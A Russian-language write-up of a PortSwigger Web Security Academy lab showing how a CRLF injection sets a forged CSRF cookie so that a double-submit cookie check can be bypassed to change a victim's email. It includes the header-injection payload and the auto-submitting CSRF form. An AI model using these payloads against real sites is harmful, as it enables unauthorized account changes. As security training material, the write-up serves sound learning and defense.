






## Lab: CSRF where token is duplicated in cookie

**Платформа:** PortSwigger Web Security Academy    
**Категория:** CSRF    
**Сложность:** Practitioner     
**Дата:** 2025-07-21    

---

## TL;DR
Приложение использует защиту **Double Submit Cookie**: сервер сравнивает значение CSRF-токена в cookie и теле запроса.

Из-за **CRLF Injection** злоумышленник может установить жертве произвольную cookie `csrf=fake`. Затем достаточно отправить POST-запрос с таким же значением токена в теле. Сервер увидит совпадение и примет запрос.

```
CRLF Injection
        ↓
Подмена CSRF-cookie
        ↓
POST с тем же csrf
        ↓
CSRF-защита обходится
```

---

## Описание уязвимости
Защита построена по принципу **Double Submit Cookie**.

При изменении email сервер ожидает:

- cookie `csrf`;
- параметр `csrf` в теле запроса.

Однако сервер проверяет только одно условие:

```
csrf(cookie) == csrf(body)
```

Он не проверяет, что токен действительно был сгенерирован приложением.

Если злоумышленник сможет изменить значение cookie у жертвы, защиту можно полностью обойти.

---

## Разведка

### Шаг 1 — Изучаем запрос смены email

Авторизовалась под пользователем `wiener:peter`.

Перехватила запрос на изменение email в Burp Suite.

Запрос содержит CSRF-токен как в cookie, так и в теле запроса.



---

### Шаг 2 — Проверяем работу CSRF-защиты

Удалила параметр `csrf` из тела запроса и отправила запрос повторно.

Сервер вернул:

```
HTTP/2 400 Bad Request
```



После этого вернула параметр `csrf` в тело запроса и удалила cookie `csrf`.

Сервер снова ответил:

```
HTTP/2 400 Bad Request
```



Из этого следует, что сервер требует наличие токена одновременно и в cookie, и в теле запроса.

---

### Шаг 3 — Анализируем механизм проверки

После нескольких экспериментов становится понятно, что сервер не проверяет корректность токена.

Проверяется только совпадение двух значений:

```
csrf(cookie) == csrf(body)
```

Если оба значения одинаковые — запрос выполняется.

---

## Эксплуатация

### Шаг 1 — Находим CRLF Injection

Перехватила запрос поиска:

```http
GET /?search=test HTTP/2
```

После этого подставила следующую полезную нагрузку:

```text
/?search=test%0d%0aSet-Cookie:%20csrf=fake;%20SameSite=None
```

В ответе появился новый HTTP-заголовок:

```http
Set-Cookie: csrf=fake; SameSite=None
```

Браузер установил новую cookie `csrf=fake`.



---

### Шаг 2 — Генерируем CSRF PoC

В Burp Suite выбрала:

```
Engagement tools → Generate CSRF PoC
```

Burp сгенерировал HTML-форму для отправки запроса изменения email.

---

### Шаг 3 — Дорабатываем эксплойт

Удалила автоматически сгенерированный JavaScript и добавила:

```html

```

Итоговый HTML:

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="evil@mail.com">
    <input type="hidden" name="csrf" value="fake">
</form>


```



---

### Шаг 4 — Отправляем жертве

Сохранила эксплойт и нажала **Deliver exploit to victim**.

После открытия страницы жертвой её email был изменён — лабораторная работа успешно решена.



---

## Почему сработало

```
Браузер открывает страницу эксплойта
        ↓
 отправляет запрос с CRLF Injection
        ↓
Сервер отвечает:
Set-Cookie: csrf=fake
        ↓
Браузер сохраняет новую cookie
        ↓
Изображение не загружается
        ↓
Срабатывает onerror
        ↓
Форма автоматически отправляется
        ↓
Cookie: csrf=fake
csrf=fake
        ↓
Сервер сравнивает значения
        ↓
Они совпадают → запрос принимается
```

---

## Цепочка атаки

```
CRLF Injection
        ↓
Подмена cookie csrf=fake
        ↓
Автоматическая отправка формы
        ↓
Cookie: csrf=fake
csrf=fake
        ↓
Сервер сравнивает значения
        ↓
CSRF-защита успешно обходится
```

---

## Итог

Защита **Double Submit Cookie** сама по себе не является уязвимой, однако она предполагает, что злоумышленник не может изменить значение CSRF-cookie.

В данной лаборатории наличие **CRLF Injection** позволяет установить произвольную cookie в браузере жертвы. Поскольку сервер проверяет только совпадение значения токена в cookie и теле запроса, злоумышленник может задать одинаковое значение в обоих местах и успешно выполнить CSRF-атаку.

---

## Защита

```
От CSRF:
— использовать токены, привязанные к серверной сессии;
— проверять подлинность токена, а не только совпадение значений;
— использовать SameSite для чувствительных cookie.

От CRLF Injection:
— фильтровать символы CR (\r) и LF (\n);
— не использовать пользовательский ввод при формировании HTTP-заголовков;
— корректно экранировать пользовательские данные.
```